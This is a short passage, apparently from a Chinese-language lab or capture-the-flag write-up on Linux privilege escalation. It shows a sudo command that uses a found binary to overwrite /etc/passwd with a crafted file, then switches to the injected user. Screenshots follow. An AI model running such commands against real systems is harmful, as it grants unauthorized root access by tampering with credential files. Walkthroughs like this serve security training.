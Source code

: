再运行刚刚发现的`test.py`将`/tmp/passwd`写入到`/etc/passwd`

```bash
sudo /opt/devstuff/dist/test/test  /tmp/passwd /etc/passwd
```

使用	`su`命令切换刚刚创建的用户

![image-20230811211247911](./imgs/image-20230811211247911.png)

![image-20230811211305255](./imgs/image-20230811211305255.png)